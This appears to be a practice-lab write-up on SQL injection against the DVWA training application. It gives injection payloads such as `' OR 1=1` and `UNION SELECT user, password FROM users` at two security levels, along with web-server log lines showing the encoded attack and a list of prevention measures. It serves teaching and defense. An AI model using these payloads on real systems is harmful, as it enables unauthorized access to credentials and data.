 # 💉 SQL Injection

SQL Injection allows attackers to input values that are always evaluated as true, bypassing other conditions in the SQL query. For example, an input like `' OR 1=1;` modifies the SQL query behavior, enabling unauthorized access to sensitive data or functionalities. When the web server receives these malicious inputs, the SQL query is constructed, executed, and the results are returned in the web application response.

## Security Settings:

1. **LOW:** 
   - At this level, user input is directly embedded in the SQL query, making it highly vulnerable to SQL injection attacks. For instance, if the query contains `$id` directly:
      ```bash
      $id
      ```
     ![PrintScreen1](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/pass2.png)
     ![PrintScreen2](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/pass2.png)
     
   - By injecting a condition that always evaluates as true (e.g., `' OR 1=1;`)
   ```sql
      1' or '1'='1;
      ```
    ![PrintScreen3](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/pass2.png)
   
   ```sql
   'UNION SELECT user , password FROM users#
   ```
   ![PrintScreen4](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/pass2.png)
   

3. **MEDIUM:** 
   - At this level, the attacker can use `UNION SELECT` to combine results from different tables within the same query, such as extracting user passwords from the `users` table.
      ```sql
      1 or 1=1 UNION SELECT user, password FROM users#
      ```
   
   ![PrintScreen5](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/pass2.png)

## Log Analysis:

> **Note:** `[IP_ADDR]` is used to anonymize the IP address for privacy. It represents the IP address from which the request originated.

1. **Sample Logs:**
   - `[IP_ADDR] - - [19/May/2024:12:55:11 -0400] "POST /dvwa/security.php HTTP/1.1" 302 - "http://[IP_ADDR]/dvwa/security.php" "Mozilla/5.0 ..."`
     - This line shows a POST request to `security.php`, resulting in a temporary redirect (HTTP response code 302). This redirection might be part of an authentication process where the user is directed to another page after submitting credentials.
   
   - `[IP_ADDR] - - [19/May/2024:12:55:14 -0400] "GET /dvwa/vulnerabilities/sqli/ HTTP/1.1" 200 4333 "http://[IP_ADDR]/dvwa/security.php" "Mozilla/5.0 ..."`
     - This successful GET request accesses the `sqli/` page, indicating a possible attempt to test for SQL injection.
   
   - `[IP_ADDR] - - [19/May/2024:13:01:41 -0400] "GET /dvwa/vulnerabilities/sqli/?id='%20UNION%20SELECT%20user,%20password%20FROM%20users%23&Submit=Submit HTTP/1.1" 200`
     - An attempt to retrieve usernames and passwords using `UNION SELECT`, with a successful response (HTTP 200), confirming the application is vulnerable.

## Effects of SQL Injection:

- Compromises web application integrity
- Allows unauthorized access to sensitive data, such as usernames, passwords, personal information, and financial details
- Data modification or deletion
- Unauthorized actions may be performed by the attacker within the application

## Prevention Measures:

- **Use Parameterized Queries and Prepared Statements:** Construct and execute SQL queries in a way that avoids SQL injection vulnerabilities.
- **User Input Validation and Filtering:** Sanitize and validate all user inputs.
- **Principle of Least Privilege:** Limit database access permissions for accounts used by the application.
- **Regular Auditing and Monitoring:** Routinely audit SQL queries, database activity, and monitor web traffic for signs of SQL injection attacks.
